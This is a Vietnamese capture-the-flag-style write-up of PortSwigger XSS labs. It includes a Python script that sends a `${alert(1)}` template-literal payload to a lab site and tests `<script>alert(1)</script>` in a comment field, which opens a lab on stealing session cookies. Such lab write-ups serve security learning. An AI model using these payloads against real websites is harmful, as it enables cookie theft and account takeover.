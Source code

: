 ![image](https://hackmd.io/_uploads/rJvWIAwc6.png)

![image](https://hackmd.io/_uploads/HkOMU0v96.png)

- Có thể thấy `${1+1}` đã được thực thi và trả về 2.

mình sẽ dùng payload `${alert(1)}` để giải quyết lab này

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a0c000d04822c9f8baeadb200d50045.web-security-academy.net'

payload= "${alert(1)}"
response = requests.get(
    url  + "/?search=" + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/SkhpUAw5T.png)

mục đíc của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/ryr-DRvcT.png)

## 22. Lab: Exploiting cross-site scripting to steal cookies

link: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

### Đề bài

![image](https://hackmd.io/_uploads/SyCDxJ_c6.png)

### Phân tích

- Lab này chứa lỗ hổng stored XSS ở chức năng comment. Nạn nhân sẽ xem tất cả comment được đăng lên, để solve lab thì mình cần khai thác lỗ hổng nhắm chiếm được session cookie của nạn nhân, và dùng nó để đóng giả làm nạn nhân
- Tương tự các bài trên, chức năng comment bị dính Stored XSS. Kiểm tra với trường comment với `<script>alert(1)</script>` thì thấy attack thành công.
- ![image](https://hackmd.io/_uploads/B1eQoddq6.png)
